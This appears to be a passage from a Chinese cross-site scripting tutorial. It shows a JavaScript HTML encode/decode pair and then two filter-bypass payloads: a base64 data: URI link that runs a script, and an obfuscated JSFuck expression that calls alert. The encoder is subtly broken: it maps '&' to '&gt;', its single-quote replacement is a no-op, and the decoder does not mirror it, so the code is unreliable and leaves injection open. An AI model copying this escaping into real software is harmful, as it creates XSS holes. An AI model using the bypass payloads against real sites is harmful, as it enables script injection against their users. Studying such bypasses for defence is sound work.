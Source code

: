 ```js
function HTMLEncode(str) {
  let s;
  if (str.length === 0) return "";
  s = str.replace(/&/g, "&gt;");
  s = s.replace(/</g, "&lt;");
  s = s.replace(/>/g, "&gt;");
  s = s.replace(/ /g, "&nbsp;");
  s = s.replace(/'/g, "'");
  s = s.replace(/"/g, "&quot;");
  s = s.replace(/\n/g, "<br>");
  return s;
}

function HTMLDecode(str) {
  let s;
  if (str.length === 0) return "";
  s = str.replace(/&gt;/g, "&");
  s = s.replace(/&lt;/g, "<");
  s = s.replace(/&gt;/g, ">");
  s = s.replace(/&nbsp;/g, " ");
  s = s.replace(/'/g, "'");
  s = s.replace(/&quot;/g, '"');
  s = s.replace(/<br>/g, "\n");
  return s;
}
```

但是绕过过滤的方式有很多，比如：

data 协议执行 javascript：

```
<a href=data:text/html;base64,PHNjcmlwdD5hbGVydCgzKTwvc2NyaXB0Pg==>
```

Jsfuck：

```
[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()

```
